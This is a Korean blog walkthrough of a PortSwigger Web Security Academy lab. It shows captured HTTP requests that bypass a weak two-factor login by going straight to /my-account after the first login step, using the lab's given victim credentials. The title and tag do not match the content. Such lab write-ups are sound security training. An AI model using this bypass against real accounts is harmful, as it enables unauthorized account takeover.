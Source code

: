 ```yaml
---
layout: post
title: "Burp Academy-인증(Authentication) 취약점: Username enumeration via different responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, OAuth취약점]
toc: true
---
```


# 개요
- 인증(Authentication)에 관련된 취약점이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/authentication/multi-factor
- 문제 주소: : https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass
- 난이도: APPRENTICE (쉬움)

# 문제 설명
- 2FA가 구현되어 있긴 하지만 취약하다. 첫번째 인증을 한 후에, 바로 인증후 화면에 접근하는 것으로 우회할 수 있다. 

```
This lab's two-factor authentication can be bypassed. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, access Carlos's account page.

Your credentials: wiener:peter
Victim's credentials carlos:montoya
```

# 로그인 과정 관찰
## 1차 인증
주어진 ID와 비밀번호로 로그인한다. 로그인에 성공하면 /login2로 리다이렉트된다. 

```http
POST /login HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=ce40xcBlbIA8lwEYbtFxmIToeriR74a0
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a570061049085d282fda6be00d3001f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

username=wiener&password=peter
```

```
HTTP/2 302 Found
Location: /login2
Set-Cookie: session=xJhnWbYCf9cGdbS9o13kpwnOY6tpv7TB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

GET /login2로 요청하면 이메일로 전송된 네자리 인증코드를 입력하라는 화면이 회신된다. 


## 2차 인증
이메일에서 인증코드를 확인하고 2차 인증을 시도하면 다음과 같은 요청/응답이 발생한다.  

```http
POST /login2 HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=xJhnWbYCf9cGdbS9o13kpwnOY6tpv7TB
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a570061049085d282fda6be00d3001f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

mfa-code=0864
```

```
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=G18oFYiVd1HIxhemLxNbM8BWIt6ndp5X; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

# 2차 인증 우회하기 
1차 인증을 완료한 후에 바로 /my-account로 접속하는 것으로 2차 인증을 우회할 수 있을 것 같다. victim 계정으로 1차 인증을 하고, 2차 인증을 우회해본다. 

## 1차 인증 
carlos:montoya로 로그인한다. 

```
POST /login HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=8KGsSFUAe0LkBZQikcsqQjdJppNNfWw5
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a570061049085d282fda6be00d3001f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

username=carlos&password=montoya
```

2차인증 페이지로 이동하라고 회신된다. 
```
HTTP/2 302 Found
Location: /login2
Set-Cookie: session=x3OR2hBVklliP16ntze4tF7dWIGp3kgK; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

## 어카운트 정보 페이지로 이동

GET /login2 요청을 캡쳐해서 경로를 /my-account로 변경한다. 

```
GET /login2 HTTP/2
Host: 0a570061049085d282fda6be00d3001f.web-security-academy.net
Cookie: session=x3OR2hBVklliP16ntze4tF7dWIGp3kgK
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Google Chrome";v="113", "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a570061049085d282fda6be00d3001f.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```

그러면 다음과 같이 carlos 계정으로 로그인이 성공한 것을 알 수 있다. 

![calor계정 로그인 성공](/images/burp-academy-authn-2-1.png)

이 상태에 우측 상단에 있는 My account를 클릭한다. 

그러면 GET /my-account?id=carlos 요청이 발생하고 문제 풀이에 성공했다는 메세지가 출력된다. 

![문제 풀이 성공](/images/burp-academy-authn-2-success.png)